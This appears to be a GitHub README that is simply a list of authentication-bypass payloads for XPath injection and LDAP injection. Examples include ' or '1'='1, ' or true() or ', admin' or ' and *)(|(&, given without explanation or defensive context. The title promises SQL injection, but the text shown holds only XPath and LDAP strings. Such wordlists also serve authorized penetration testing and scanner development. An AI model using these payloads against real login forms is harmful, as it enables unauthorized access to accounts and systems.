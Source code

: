 # SQL-Injection-Authentication-Bypass
Xpath Injection, LDAP Injection, SQL Injection Authentication Bypass

XPATH Injection Authentication Bypass:
```' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2```

LDAP Injection Authentication Bypass:
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
